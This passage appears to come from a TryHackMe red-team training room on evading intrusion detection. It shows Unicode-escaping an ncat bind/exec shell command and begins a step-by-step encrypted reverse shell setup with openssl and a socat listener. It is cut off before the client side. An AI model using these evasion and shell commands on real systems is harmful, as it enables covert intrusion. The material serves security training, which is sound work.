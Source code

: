![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/f330a782dc93a8b227fc93231aa1649a.png)  

If you use the formatÂ `\uXXXX`, thenÂ `ncat -lvnp 1234 -e /bin/bash`Â becomesÂ `\u006e\u0063\u0061\u0074\u0020\u002d\u006c\u0076\u006e\u0070\u0020\u0031\u0032\u0033\u0034\u0020\u002d\u0065\u0020\u002f\u0062\u0069\u006e\u002f\u0062\u0061\u0073\u0068`. It is clearly a drastic transformation that would help you evade detection, assuming the target system will interpret it correctly and execute it.

### Encrypt the Communication Channel

Because anÂ IDS/IPSÂ wonâ€™t inspect encrypted data, an attacker can take advantage of encryption to evade detection. Unlike encoding, encryption requires an encryption key.

One direct approach is to create the necessary encryption key on the attackerâ€™s system and setÂ `socat`Â to use the encryption key to enforce encryption as it listens for incoming connections. An encrypted reverse shell can be carried out in three steps:

1. Create the key
2. Listen on the attackerâ€™s machine
3. Connect to the attackerâ€™s machine

**Firstly**, On the AttackBox or anyÂ LinuxÂ system, we can create the key usingÂ `openssl`.

`openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt`

The arguments in the above command are:

- `req`Â indicates that this is a certificate signing request. Obviously, we wonâ€™t submit our certificate for signing.
- `-x509`Â specifies that we want an X.509 certificate
- `-newkey rsa:4096`Â creates a new certificate request and a new private key usingÂ RSA, with the key size being 4096 bits. (You can use other options forÂ RSAÂ key size, such asÂ `-newkey rsa:2048`.)
- `-days 365`Â shows that the validity of our certificate will be one year
- `-subj`Â sets data, such as organization and country, via the command-line.
- `-nodes`Â simplifies our command and does not encrypt the private key
- `-keyout PRIVATE_KEY`Â specifies the filename where we want to save our private key
- `-out CERTIFICATE`Â specifies the filename to which we want to write the certificate request

The above command returns:

- Private key:Â `thm-reverse.key`
- Certificate:Â `thm-reverse.crt`

The Privacy Enhanced Mail (PEM)Â `.pem`Â file requires the concatenation of the private keyÂ `.key`Â and the certificateÂ `.crt`Â files. We can useÂ `cat`Â to create our PEM file from the two files that we have just created:

`cat thm-reverse.key thm-reverse.crt > thm-reverse.pem`.

**Secondly**, with the PEM file ready, we can start listening while using the key for encrypting the communication with the client.

`socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT`

If you are not familiar withÂ `socat`, the options that we used are:
